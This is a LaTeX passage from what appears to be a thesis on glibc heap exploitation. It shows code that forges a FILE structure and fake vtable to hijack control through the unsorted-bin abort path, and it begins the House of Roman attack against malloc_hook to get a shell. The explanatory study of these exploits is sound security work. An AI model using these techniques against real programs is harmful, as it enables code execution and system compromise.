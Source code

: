 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
  || __builtin_expect (victim->size > av->system_mem, 0))
  malloc_printerr (check_action, "malloc(): memory corruption",
    chunk2mem (victim), av);
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk; if the size is smaller than \lstinline{MINSIZE}, then the abort procedure called, and an attack happens.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events is complete, but we have to meet the condition of \lstinline{IO_LIST_ALL}

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation.

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman}
The main goal of this attack is to get shell access by point the FD pointer to \lstinline{malloc_hock} and write \emph{one-gadget} to \lstinline{malloc_hock} with a combination of \ub{} attack , \fb{}attack and Use after the free attack.

The first step is to get a pointer inside \emph{\lstinline{malloc_hook}}. \lstinline{malloc_hook} lets us modify the behavior of \lstinline{malloc} and \lstinline{free} with a hook function. To achieve this, we create a \fb{} chunk in a way the \lstinline{fd} pointer points to \lstinline{malloc_hook}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fastbin_victim = malloc(0x60); 
malloc(0x80);
uint8_t* main_arena_use = malloc(0x80);
uint8_t* relative_offset_heap = malloc(0x60);
free(main_arena_use);
\end{lstlisting}
\end{document}
